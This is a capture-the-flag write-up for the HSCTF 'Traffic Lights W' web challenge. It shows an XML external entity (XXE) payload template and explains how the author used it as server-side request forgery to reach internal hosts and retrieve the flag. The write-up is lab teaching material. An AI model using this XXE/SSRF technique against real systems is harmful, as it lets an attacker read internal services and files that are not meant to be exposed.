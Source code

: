 # Traffic Lights W

## Problem

```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution

The #1001 firmware link redirects us to a page that allows us to upload XML code. This is a clue for us to
conduct an XXE injection. We use the injection code as per below:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "-url input-">]>
<root>
  <content>&xxe;</content>
</root>
```

Now we need to conduct an SSRF on the web server using the XXE. We notice that the index page contains some interesting information about 
hostnames and ports:
![](images/trafficw1.PNG)


Since #1001 and #1004 are the only 2 active points, we try both `http://traffic-lights-1001:80` and 
`http://traffic-lights-1004:80` as input in the XXE injection. The latter returns the flag.
![](images/trafficw_final.PNG)

Flag: `flag{shh_im_mining_bitcoin}`